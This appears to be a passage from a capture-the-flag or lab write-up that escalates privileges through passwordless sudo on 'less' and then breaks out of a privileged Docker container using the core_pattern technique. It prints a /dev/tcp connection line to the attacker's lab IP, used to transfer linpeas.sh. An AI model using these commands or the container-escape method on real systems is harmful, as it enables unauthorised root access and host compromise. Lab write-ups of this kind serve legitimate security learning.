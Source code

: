 ## Privilege Escalation
User sparkles can use sudo with `less` binary without a password.
![untittled](images/14.png)
Less is one of [GTFObins](https://gtfobins.github.io/gtfobins/less/) that allows privelege escalation when executed as root which sudo does.

## Docker Escape
As this is very limited container, without `curl`, `wget`, `nc` and such file transport is quite cumbersome.
To run [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) on local machine `nc` command was executed as `nc -lnvp 1337 < linpeas.sh` and on the remote server (victim) `bash  -i >&  /dev/tcp/10.10.14.22/1338 0>&1 > linpeas.sh`
This allowed to run script on remote server from my local machine.

### linpeas.sh

Linpeas is enumeartion script that make this process much simpler and it returned with information  that this container runs in `privileged mode` which allows multiple ways in escaping from container to the host.
![untitled](images/15.png)
linpeas enumerates possible ways to brakeout here one of the possibility is `core_patter` breakout
![untitled](images/16.png)

### Escaping from docker
Docker containers are little virtual machines that share kernel with host system that means some special files from `proc` are shared. One of the interesting file is `/proc/sys/kernel/core_pattern` which defines what to do after program crash (core dumps) if this file is starting with pipe `|` there is 128bytes of space to execute program that will run as `root` user. But it needs to be program on host system. This isn't a problem really because container is "leaching" from host so with `mount` command. Exact path can be extracted for root filesystem which in this case is `/var/lib/docker/overlay2/8bcfb41c623919126e3c477270b89d61ca7848cb8ae498ab341a2ded1828750d/diff/`
![untitled](images/17.png)